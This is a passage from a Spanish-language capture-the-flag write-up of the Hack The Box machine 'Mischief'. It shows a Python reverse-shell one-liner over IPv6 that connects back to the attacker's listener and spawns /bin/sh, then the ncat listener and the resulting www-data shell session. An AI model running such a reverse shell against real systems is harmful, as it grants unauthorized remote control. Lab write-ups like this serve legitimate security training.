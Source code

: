 Para ganar acceso como "www-data" yo voy a utilizar un script en Python, en el script tiene que cambiar AF_INET a AF_INET6 y en la dirección IP no tiene que poner la IPv4 tiene que poner su dirección IPv6
 
```python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::1018",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

Nos ponemos en escucha por ncat.

```bash

❯ ncat -6lvnp 443 --listen dead:beef:2::1018
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [dead:beef:2::1018]:443

```
Ejecutemos el script en Python en la pagina web.

![](/assets/images/htb-writeup-Mischief/command3.jpg)

Regresemos al ncat y vemos que ganamos acceso.

```bash

❯ ncat -6lvnp 443 --listen dead:beef:2::1018
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [dead:beef:2::1018]:443
Ncat: Connection from [dead:beef::250:56ff:feb9:e3a2]:53256.
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@Mischief:/var/www/html$ ifconfig
ifconfig
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.92  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:e3a2  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:e3a2  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:e3:a2  txqueuelen 1000  (Ethernet)
        RX packets 154210  bytes 9724905 (9.7 MB)
        RX errors 0  dropped 90  overruns 0  frame 0
        TX packets 15844  bytes 2464571 (2.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
```